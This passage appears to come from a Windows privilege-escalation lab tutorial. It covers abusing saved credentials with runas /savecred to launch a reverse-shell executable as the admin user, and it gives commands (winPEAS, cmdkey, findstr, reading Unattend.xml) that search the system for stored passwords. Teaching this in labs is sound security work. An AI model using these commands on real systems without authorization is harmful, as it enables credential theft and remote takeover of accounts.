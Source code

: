 ### <mark style="color:blue;">Saved Credentials</mark>

Windows has a runas command which allows users to run commands with the privileges of other users. This usually requires the knowledge of the other user’s password. However, Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement.

1. Use winPEAS to check for saved credentials:

```
> .\winPEASany.exe quiet cmd windowscreds
```

2. It appears that saved credentials for the admin user exist.&#x20;
3. We can verify this manually using the following command:

```
> cmdkey /list
```

4. If the saved credentials aren’t present, run the following script to refresh the credential:

```
> C:\PrivEsc\savecred.bat
```

5. We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:

```
> runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

### <mark style="color:blue;">Searching for Configuration Files</mark>

Some administrators will leave configurations files on the system with passwords in them.

Recursively search for files in the current directory with “pass” in the name, or ending in “.config”:

```
> dir /s *pass* == *.config
```

Recursively search for files in the current directory that contain the word “password” and also end in either .xml, .ini, or .txt:

```
> findstr /si password *.xml *.ini *.txt
```

1. Use winPEAS to search for common files which may contain credentials:

```
> .\winPEASany.exe quiet cmd searchfast filesinfo
```

2. The Unattend.xml file was found. View the contents:

```
> type C:\Windows\Panther\Unattend.xml
```

